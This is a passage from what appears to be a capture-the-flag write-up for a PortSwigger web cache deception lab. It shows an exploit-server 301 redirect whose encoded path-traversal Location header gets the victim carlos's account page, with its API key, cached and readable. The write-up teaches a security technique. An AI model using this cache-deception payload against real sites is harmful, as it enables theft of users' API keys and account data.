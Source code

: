 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-4/images/Pasted%20image%2020240810190842.png)

Nice! It cached our API key response!

To steal `carlos`'s API key, we can go to our exploit server and modify the server response to this:

```http
HTTP/1.1 301 Moved Permanently
Location: https://0acb00210428b48e80e535cd007a00af.web-security-academy.net/my-account%23%%2f%2e%2e%2fresources
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Web-Cache-Deception/WCD-4/images/Pasted%20image%2020240810191139.png)
